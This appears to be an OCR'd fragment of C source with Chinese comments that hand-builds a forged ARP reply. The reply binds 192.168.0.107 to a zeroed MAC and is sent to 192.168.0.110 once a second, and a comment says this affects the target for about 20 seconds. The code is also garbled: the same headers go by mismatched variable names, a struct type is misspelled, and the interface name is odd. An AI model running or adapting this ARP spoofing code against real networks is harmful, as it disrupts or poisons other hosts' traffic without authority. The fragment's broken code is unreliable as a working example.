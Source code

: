 ```c
        perror("socket");
        return 0;
    }
    
    /*目的mac 源mac 目的IP 源IP*/
    unsigned char dst_mac[6]={0xC0,0xB5,0xD7,0xC4,0x3F,0x49}; 
    unsigned char src_mac[6]={0x00};
    unsigned char dst_ip[4]={192,168,0,110};
    unsigned char src_ip[4]={192,168,0,107};
    
    unsigned char msg[1024]="";
    
    //1、组mac头部
    struct ether_header *eth_addr = (struct ether_header *)msg;
    //memcpy为内存操作的复制,参数分别为:目标地址,源地址,字节数
    //赋值目的mac地址
    memcpy(eth->ether_dhost,dst_mac,6);
    //赋值源mac地址
    memcpy(eth->ether_shost,src_mac,6);
    //赋值帧类型
    ether_addr->ether_type = htons(0x0806);
    
    //2、组成arp头部
    struct arphdr *eth_head = (struct arphdr *)(msg+14);//跳过mac头部
    arp_head->ar_hrd = htons(1);
    arp_head->ar_pro = htons(0x0800);
    arp_head->ar_hln = 6;
    arp_head->ar_pln = 4;
    arp_head->ar_op = htons(2);
    memcpy(arp_head->__ar_sha, src_mac,6);
    memcpy(arp_head->__ar_sip, src_ip,4);
    memcpy(arp_head->__ar_tha, dst_mac,6);
    memcpy(arp_head->__ar_tip, dst_ip,4);
    
    
    //发送arp请求帧数据
    int i = 0;
    for(i=1;i<20;i++)//影响20秒
    {
        my_sendto(sockfd, "0xb", msg, 42);
        sleep(1);
    }
   
    close(sockfd);
    return 0;
}

//封装函数
void my_sendto(int sockfd, char *outifc, unsigned char *msg, int msg_len)
{
    //通过ioctl得到网络接口
    struct ifreq ethreq;
    strncpy(ethreq.ifr_name,outifc,IFNAMSIZ);//指定网卡名称
    //得到网络接口
    if(-1 == ioctl(sockfd, SIOCGIFINDEX, &ethreq))
    {
        perror("ioctl");
        close(sockfd);
        exit(-1);
    }
    
    //帧数据 出去的本地接口
    struct sockadr_ll sll;
```